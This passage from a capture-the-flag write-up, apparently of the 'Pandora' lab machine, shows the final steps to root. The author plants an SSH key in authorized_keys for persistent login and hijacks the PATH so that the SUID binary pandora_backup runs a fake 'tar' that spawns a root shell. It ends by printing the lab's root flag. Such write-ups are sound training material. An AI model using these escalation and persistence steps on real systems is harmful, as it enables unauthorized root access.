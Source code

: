 I created the ssh keys and login again from outside through private key →

```python
matt@pandora:/home/matt$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/matt/.ssh/id_rsa): 
Created directory '/home/matt/.ssh'.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/matt/.ssh/id_rsa
Your public key has been saved in /home/matt/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:Qp8afmdihGyS2H/bN131q7W7lG1OpsQi3NO8zs6f/mQ matt@pandora
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|                 |
|      .          |
|   o + o .      .|
|  . + * S       o|
|     = = . . +  =|
|      + = = +.==E|
|       + * .o*+@o|
|        . .. =XBB|
+----[SHA256]-----+
matt@pandora:/home/matt$ 
matt@pandora:/home/matt$ cd .ssh
matt@pandora:/home/matt/.ssh$ ls
id_rsa  id_rsa.pub
matt@pandora:/home/matt/.ssh$ mv id_rsa.pub authorized_keys
matt@pandora:/home/matt/.ssh$
```

 I knew that the `/usr/bin/pandora_backup` file have SUIDs permissions so I created the tar command as executable from different path .

```python
matt@pandora:/tmp$ echo "/bin/bash" > tar
matt@pandora:/tmp$ chmod +x tar
matt@pandora:/tmp$ export PATH=/tmp:$PATH
matt@pandora:/tmp$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:/tmp# whoami
root
root@pandora:/tmp# id
uid=0(root) gid=1000(matt) groups=1000(matt)
root@pandora:/tmp# cd /root
root@pandora:/root# ls -al
total 36
drwx------  5 root root 4096 Dec 31 14:52 .
drwxr-xr-x 18 root root 4096 Dec  7  2021 ..
drwxr-xr-x  2 root root 4096 Dec 31 18:28 .backup
lrwxrwxrwx  1 root root    9 Jun 11  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Jan  3  2022 .cache
-rw-r--r--  1 root root  250 Dec 31 14:52 .host_check
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-r--------  1 root root   33 Dec 31 14:52 root.txt
drwx------  2 root root 4096 Dec  7  2021 .ssh
root@pandora:/root# cat root.txt
83080c424f837712c2e6ff0f1843aab3
root@pandora:/root#
```

I am root now !!
